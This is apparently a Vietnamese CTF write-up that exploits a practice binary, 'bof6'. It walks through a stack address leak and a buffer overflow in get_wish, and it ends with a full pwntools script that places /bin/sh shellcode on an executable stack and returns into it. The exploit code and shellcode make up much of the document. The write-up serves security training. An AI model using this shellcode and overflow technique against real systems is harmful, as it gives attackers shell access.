





**1. Tìm lỗi**

Chạy thử file ta được:



Dùng lệnh 'file' kiểm tra:

```
bof6: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7e00adff17cb6bf5c2209e816c46f93efe45c3e1, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta được

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+8h] [rbp-8h] BYREF
  int v5; // [rsp+Ch] [rbp-4h]

  v5 = 0;
  init(argc, argv, envp);
  while ( !v5 )
  {
    puts("Welcome to christmas gifting system");
    puts("1. Enter your name");
    puts("2. Send a wish");
    puts("3. Exit");
    printf("> ");
    __isoc99_scanf("%d", &v4);
    if ( v4 == 1 )
    {
      get_name();
    }
    else if ( v4 == 2 )
    {
      get_wish();
    }
    else
    {
      v5 = 1;
    }
  }
  return 0;
}
```

Hàm get_name:

```
int get_name()
{
  char buf[80]; // [rsp+0h] [rbp-50h] BYREF

  puts("What's your name?");
  printf("> ");
  read(0, buf, 0x50uLL);
  printf("Hello %sI have a message from santa:\n", buf);
  puts("----------------------------------------------------------");
  puts(
    "| Due to your good behavior, I will give you a wish.     |\n"
    "| You can wish for anything you want and I will give you |\n"
    "| that as a gift for being a good boy!                   |");
  return puts("----------------------------------------------------------");
}
```

Hàm sử dụng hàm puts() để in ra câu hỏi "What's your name?", và sử dụng hàm printf() để yêu cầu người dùng nhập tên của họ. Hàm read() được gọi đến, đọc tối đa 0x50 (80) byte thông tin người dùng nhập vào từ stdin và lưu trữ vào mảng ký tự buf. Nếu như mình nhập hết 80 byte ở đây thì có thể leak được địa chỉ stack.

Hàm get_wish:

```
ssize_t get_wish()
{
  char buf[512]; // [rsp+0h] [rbp-200h] BYREF

  puts("What do you want for christmas?");
  printf("> ");
  return read(0, buf, 0x220uLL);
}
```

Hàm khai báo một mảng ký tự buf có kích thước 512 byte.

Sau đó, hàm sử dụng hàm puts() để in ra câu hỏi "What do you want for christmas?", và sử dụng hàm printf() để yêu cầu người dùng nhập món quà mà họ muốn nhận. Hàm read() được gọi đến, đọc tối đa 0x220 (544) byte thông tin người dùng nhập vào từ stdin và lưu trữ vào mảng ký tự buf nhưng biến buf được khai báo 512 byte -> có lỗi bof

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
          0x401000           0x402000 r-xp     1000   1000 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
          0x402000           0x403000 r--p     1000   2000 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
          0x403000           0x404000 r--p     1000   2000 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
          0x404000           0x405000 rw-p     1000   3000 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
    0x7ffff7d8a000     0x7ffff7d8d000 rw-p     3000      0 [anon_7ffff7d8a]
    0x7ffff7d8d000     0x7ffff7db5000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7db5000     0x7ffff7f4a000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f4a000     0x7ffff7fa2000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa2000     0x7ffff7fa6000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa6000     0x7ffff7fa8000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa8000     0x7ffff7fb5000 rw-p     d000      0 [anon_7ffff7fa8]
    0x7ffff7fbb000     0x7ffff7fbd000 rw-p     2000      0 [anon_7ffff7fbb]
    0x7ffff7fbd000     0x7ffff7fc1000 r--p     4000      0 [vvar]
    0x7ffff7fc1000     0x7ffff7fc3000 r-xp     2000      0 [vdso]
    0x7ffff7fc3000     0x7ffff7fc5000 r--p     2000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc5000     0x7ffff7fef000 r-xp    2a000   2000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fef000     0x7ffff7ffa000 r--p     b000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffde000     0x7ffffffff000 rwxp    21000      0 [stack]
```

Ta thấy ở stack có thể thực thi được nên sẽ đưa shellcode lên stack

**Ý tưởng**

- Ở chế độ 1 nhập full 0x50 byte để lấy địa chỉ stack
- Ở chế độ 2 đưa shellcode vào

**3. Khai thác**

- Leak địa chỉ stack:

Vào chương trình chọn chế độ 1 rồi nhập full 0x50 byte rác xem có leak được địa chỉ stack không.



Vậy địa chỉ đã được in ra -> có được script đoạn này như sau:

```
r.sendlineafter(b'> ', b'1')
r.sendafter(b'> ', b'a'*0x50)
r.recvuntil(b'a'*0x50)
stack = u64(r.recv(6) + b'\x00\x00')
print('stack: ' + hex(stack))
```

Tiếp theo là sang chế độ 2 ghi shellcode vào stack để thực thi.

```
   0x00000000004012a7 <+44>:    lea    rax,[rbp-0x200]
   0x00000000004012ae <+51>:    mov    edx,0x220
   0x00000000004012b3 <+56>:    mov    rsi,rax
   0x00000000004012b6 <+59>:    mov    edi,0x0
   0x00000000004012bb <+64>:    call   0x4010b0 <read@plt>
```

Ta thấy được lúc nhập tràn từ biến đến ret thì không đủ byte để ghi shellcode nên nhập luôn shellcode vào biến rồi đưa lại địa chỉ biến để thực thi.

```
payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = payload.ljust(0x200 + 0x8)
payload += p64(stack)
input()
r.sendlineafter(b'> ', b'2')
r.sendafter(b'> ', payload)
```

Đặt breakpoint sau lệnh read kiểm tra xem địa chỉ stack leak ra được đến địa chỉ chứa shellcode cách nhau bao nhiêu.



Vậy cần lùi về sau stack 0x220 byte. Kiểm tra xem ret đã trả về địa chỉ shellcode của mình chưa.



Vậy chương trình đã trả về đúng địa chỉ shellcode cho mình.

Ta có script như sau:

```
from pwn import *

exe = ELF('bof6')
r = process(exe.path)

#1. Leak địa chỉ stack
r.sendlineafter(b'> ', b'1')
r.sendafter(b'> ', b'a'*0x50)
r.recvuntil(b'a'*0x50)
stack = u64(r.recv(6) + b'\x00\x00')
print('stack: ' + hex(stack))

#2. Ghi shellcode
payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = payload.ljust(0x200 + 0x8)
payload += p64(stack - 0x220)
#input()
r.sendlineafter(b'> ', b'2')
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**


